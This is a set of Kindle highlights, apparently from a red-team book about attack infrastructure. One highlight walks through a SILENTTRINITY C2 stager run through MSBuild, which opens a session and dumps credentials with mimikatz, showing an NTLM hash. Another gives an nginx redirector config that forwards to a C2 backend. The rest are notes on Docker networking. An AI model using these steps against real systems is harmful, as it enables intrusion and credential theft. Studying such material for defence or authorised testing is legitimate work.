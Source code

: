 	- [1] ST (stagers) >> generate customListener [+] Generated stager to ./stager.xml If we take a closer look at the stager.xml file, we can see it embeds a base64-encoded version of an executable called naga.exe (SILENTTRINITY/core/teamserver/data/naga.exe), which connects back to the listener we set up and then downloads a ZIP file containing Boo-Lang DLLs and a script to bootstrap the environment. Once we compile and run this payload on the fly using MSBuild, we will have a full Boo environment running on the target’s machine, ready to execute whatever shady payload we send its way: # Start agent PS C:\> C:\Windows\Microsoft.Net\Framework\v4.0.30319\MSBuild.exe stager.xml [*] [TS-vrFt3] Sending stage (569057 bytes) ->  192.168.1.30... [*] [TS-vrFt3] New session 36e7f9e3-13e4-4fa1-9266-89d95612eebc connected! (192.168.1.30) [1] ST (listeners)(https) >> sessions [1] ST (sessions) >> list Name           >> User         >> Address     >> Last Checkin 36e7f9e3-13... >> *wk_adm@PIANO>> 192.168.1.3 >> h 00 m 00 s 04 Notice how, unlike with the other two frameworks, we did not bother customizing the payload to evade Windows Defender. It just works . . . for now! We can deliver any of the current 69 post-exploitation modules, from loading an arbitrary assembly (.NET executable) in memory to regular Active Directory reconnaissance and credential dumping: [1] ST (sessions) >> modules [1] ST (modules) >> use boo/mimikatz [1] ST (modules)(boo/mimikatz) >> run all [*] [TS-7fhpY] 36e7f9e3-13e4-4fa1-9266-89d95612eebc returned job result (id: zpqY2hqD1l) [+] Running in high integrity process--snip-- msv : [00000003] Primary * Username : wkadmin    * Domain   : PIANO.LOCAL * NTLM     : adefd76971f37458b6c3b061f30e3c42--snip-- The project is still very young, yet it displays tremendous potential. If you are a complete beginner, though, you may suffer from the lack of documentation and explicit error handling. The tool is still in ([Location 875](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=875))
		- **Tags**: #[[pink]]
	- the tooling necessary to faithfully reproduce and automate almost every painful aspect of the manual setup. We’ll stick with ([Location 910](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=910))
		- **Tags**: #[[pink]]
	- index index.html; server_name www.mydomain.com; # return 404 if no file or directory match location / { try_files $uri $uri/ =404; } # /msf URL gets redirected to our backend C2 framework location /msf { proxy_pass https://192.168.1.29:8443; proxy_ssl_verify off; proxy_set_header Host $host; proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for; ([Location 925](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=925))
		- **Tags**: #[[pink]]
	- The solution is to package all your applications with all their dependencies properly installed and tuned to the right version. When you spin up a new machine, ([Location 948](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=948))
		- **Tags**: #[[pink]]
	- one. It proceeds with its own boot sequence and loads the filesystem, scheduler, kernel structures, the whole nine yards. The guest system believes it is running on ([Location 967](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=967))
		- **Tags**: #[[pink]]
	- understand how much blood and sweat were spared by these two commands. Of course, you may wonder, “How, in this new isolated environment, can we reach a listener from ([Location 1023](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=1023))
		- **Tags**: #[[pink]]
	- the machine shows the default docker0 bridge with the allocated 172.17.0.0/16 IP range ready to be distributed across new containers: ([Location 1031](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=1031))
		- **Tags**: #[[pink]]
	- 8500 on the host will map to ports 8400 to 8500 in the container: ([Location 1039](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=1039))
		- **Tags**: #[[pink]]
	- reach a handler listening on any port between 8400 and 8500 inside the container by sending packets to the host’s IP address on that same port range. ([Location 1042](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=1042))
		- **Tags**: #[[pink]]
	- run. Next, we use a single instruction to pull the base ([Location 1075](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=1075))
		- **Tags**: #[[pink]]
	- new directory called the image layer. Higher directories shadow lower ones. For instance, a file altered in step 3 during the build process will shadow the same file created ([Location 1083](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=1083))
		- **Tags**: #[[pink]]